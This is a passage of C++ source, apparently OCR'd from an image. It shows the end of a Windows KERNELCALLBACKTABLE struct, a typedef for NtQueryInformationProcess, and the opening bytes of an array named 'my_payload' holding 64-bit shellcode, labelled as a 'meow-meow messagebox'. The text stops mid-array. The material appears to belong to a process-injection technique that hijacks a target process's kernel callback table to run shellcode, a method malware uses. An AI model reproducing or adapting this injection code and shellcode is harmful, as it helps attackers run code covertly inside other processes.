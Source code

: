 ```cpp
  ULONG_PTR __ClientWaitMessageExMPH;
  ULONG_PTR __ClientWOWGetProcModule;
  ULONG_PTR __ClientWOWTask16SchedNotify;
  ULONG_PTR __ClientImmLoadLayout;
  ULONG_PTR __ClientImmProcessKey;
  ULONG_PTR __fnIMECONTROL;
  ULONG_PTR __fnINWPARAMDBCSCHAR;
  ULONG_PTR __fnGETTEXTLENGTHS2;
  ULONG_PTR __fnINLPKDRAWSWITCHWND;
  ULONG_PTR __ClientLoadStringW;
  ULONG_PTR __ClientLoadOLE;
  ULONG_PTR __ClientRegisterDragDrop;
  ULONG_PTR __ClientRevokeDragDrop;
  ULONG_PTR __fnINOUTMENUGETOBJECT;
  ULONG_PTR __ClientPrinterThunk;
  ULONG_PTR __fnOUTLPCOMBOBOXINFO2;
  ULONG_PTR __fnOUTLPSCROLLBARINFO;
  ULONG_PTR __fnINLPUAHDRAWMENU2;
  ULONG_PTR __fnINLPUAHDRAWMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU3;
  ULONG_PTR __fnINOUTLPUAHMEASUREMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU4;
  ULONG_PTR __fnOUTLPTITLEBARINFOEX;
  ULONG_PTR __fnTOUCH;
  ULONG_PTR __fnGESTURE;
  ULONG_PTR __fnPOPTINLPUINT4;
  ULONG_PTR __fnPOPTINLPUINT5;
  ULONG_PTR __xxxClientCallDefaultInputHandler;
  ULONG_PTR __fnEMPTY;
  ULONG_PTR __ClientRimDevCallback;
  ULONG_PTR __xxxClientCallMinTouchHitTestingCallback;
  ULONG_PTR __ClientCallLocalMouseHooks;
  ULONG_PTR __xxxClientBroadcastThemeChange;
  ULONG_PTR __xxxClientCallDevCallbackSimple;
  ULONG_PTR __xxxClientAllocWindowClassExtraBytes;
  ULONG_PTR __xxxClientFreeWindowClassExtraBytes;
  ULONG_PTR __fnGETWINDOWDATA;
  ULONG_PTR __fnINOUTSTYLECHANGE2;
  ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX2;
} KERNELCALLBACKTABLE;

// NtQueryInformationProcess
typedef NTSTATUS(NTAPI* pNtQueryInformationProcess)(
  IN HANDLE ProcessHandle,
  IN PROCESSINFOCLASS ProcessInformationClass,
  OUT PVOID ProcessInformation,
  IN ULONG ProcessInformationLength,
  OUT PULONG ReturnLength OPTIONAL
);

unsigned char my_payload[] = 
  
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
```